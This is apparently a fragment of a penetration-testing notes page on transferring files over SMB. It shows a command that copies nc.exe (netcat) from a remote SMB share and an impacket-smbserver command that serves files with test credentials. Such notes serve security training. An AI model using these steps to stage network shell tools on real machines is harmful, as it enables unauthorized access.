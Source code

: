 <figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Copy a File from the SMB Server

{% code overflow="wrap" %}
```
copy \\192.168.220.133\share\nc.exe
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>New versions of Windows block unauthenticated guest access</p></figcaption></figure>

### **Create the SMB Server with Username & Password**

{% code overflow="wrap" %}
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
